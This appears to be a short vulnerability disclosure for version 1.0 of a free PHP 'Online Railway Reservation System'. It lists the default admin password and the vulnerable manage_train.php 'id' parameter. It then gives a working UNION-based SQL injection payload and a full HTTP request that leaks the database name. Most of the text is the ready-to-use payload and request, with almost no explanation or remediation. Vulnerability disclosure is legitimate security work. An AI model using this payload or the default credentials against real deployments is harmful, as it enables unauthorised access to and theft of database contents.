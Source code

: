 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/trains/manage_train.php?id=

Vulnerability location: /orrs/admin/trains/manage_train.php?id=, id

Current database name: orrs_db,length is 7

[+] Payload:  /orrs/admin/trains/manage_train.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /orrs/admin/trains/manage_train.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/172335213-aeef8f87-4604-4443-ae38-42ceb707fc35.png)

![image](https://user-images.githubusercontent.com/54017627/172335234-4c82fdf1-4db1-4503-a33b-caea173d481f.png)
